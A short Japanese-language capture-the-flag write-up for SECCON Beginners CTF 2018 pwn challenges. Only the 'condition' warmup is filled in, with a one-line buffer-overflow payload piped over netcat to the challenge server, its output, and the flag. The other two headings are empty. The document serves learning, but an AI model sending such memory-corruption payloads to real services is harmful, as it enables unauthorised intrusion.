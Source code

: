 SECCON BeginnersCTF 2018 pwn問題のwriteupです。

# [Warmup] condition

```
$ python -c 'print "\x00"*44+"\xef\xbe\xad\xde"'|nc pwn1.chall.beginners.seccon.jp 16268
Please tell me your name...OK! You have permission to get flag!!
ctf4b{T4mp3r_4n07h3r_v4r14bl3_w17h_m3m0ry_c0rrup710n}
```

# BBS



# Seczon

